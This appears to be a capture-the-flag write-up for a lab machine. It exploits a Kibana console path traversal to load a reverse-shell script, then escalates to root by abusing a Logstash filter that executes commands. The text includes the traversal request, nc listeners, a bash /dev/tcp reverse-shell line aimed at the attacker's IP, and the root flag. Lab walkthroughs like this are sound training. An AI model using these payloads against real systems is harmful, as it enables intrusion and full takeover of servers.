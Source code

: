```
[security@haystack shm]$ curl -X GET "localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../dev/shm/rev.js" -H "kbnxsrf:true"
```

now i take a shell as `kibana user`

```Shell
root@X-Billy:~# nc -lvp 8001
listening on [any] 8001 ...
10.10.10.115: inverse host lookup failed: Unknown host
connect to [10.10.16.161] from (UNKNOWN) [10.10.10.115] 36212
whoami
kibana
```

and now we will go to the configration file `/etc/logstash/conf.d`

```Shell
cd /etc/logstash/conf.d
ls
filter.conf
input.conf
output.conf
```

lets check what is inside `filter.conf` 

```
cat filter.conf
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
```

nicee .. this filter allows us to excute commands with the proper  
now we will make our logstash file and put it into `/opt/kibana`  

`Ejecutar comando : bash -i >& /dev/tcp/10.10.16.161/6666 0>&1`  

after make this file lets listening to `port 6666`  

with command `root@X-Billy:~/Desktop# nc -lvp 6666`  

> finally Rooted

```Shell
root@X-Billy:# cat /root/root.txt
cat /root/root.txt
3f5f727c38d9f70e1d2ad2ba11059d9`
```
